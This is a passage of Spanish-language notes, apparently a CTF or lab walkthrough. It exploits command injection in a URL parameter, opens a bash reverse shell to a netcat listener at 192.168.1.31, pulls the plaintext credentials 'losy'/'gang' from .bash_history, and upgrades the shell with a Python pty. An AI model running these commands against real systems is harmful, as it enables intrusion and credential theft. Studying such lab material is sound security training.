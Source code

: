 	localhost:9999/?cmd=[command]

![[Pasted image 20240417120826.png]]

Ahora, lo primero que haremos para realizar un reverse shell es levantar un [[Recursos#**nc**|netcat]]

	nc -lvp 1234

![[Pasted image 20240417121830.png]]

Luego nos ocupamos el siguiente comando.

	bash -c 'bash -i >& /dev/tcp/192.168.1.31/8888 0>&1'

> [!TIP] URL
> Al estar ingresando este comando en una URL es necesario convertirlo para que el navegador sea capaz de entenderlo.

![[Pasted image 20240417122219.png]]

Y revisamos nuestra consola. Y listo, hemos entrado a través del usuario **losy**.

![[Pasted image 20240419025029.png]]

Ahora que estamos dentro, naveguemos un poco para ver que encontramos. Nos iremos al directorio principal y listaremos para ver que encontramos

![[Pasted image 20240419025627.png]]

Vemos que existe un **.bash_history**, asi que vemos que podemos encontrar dentro de este.

![[Pasted image 20240419025713.png]]

![[Pasted image 20240419025735.png]]

Revisando el historial obtuvimos.

> user: losy
> pass: gang
> Un sudo con comandos de acceso.

Ahora ejecutaremos.

	sudo -l

![[Pasted image 20240419030214.png]]

> [!NOTE] Title
> Este se debe a que nos conectamos a traves de un reverse shell, sin autenticarnos, pero lo podemos solucionar con python.
> 

Hacemo uso del comando en python para mejorar nuestra interaccion con la terminal del sistema remoto con el comando.

	python3 -c 'import pty; pty.spawn("/bin/bash")'
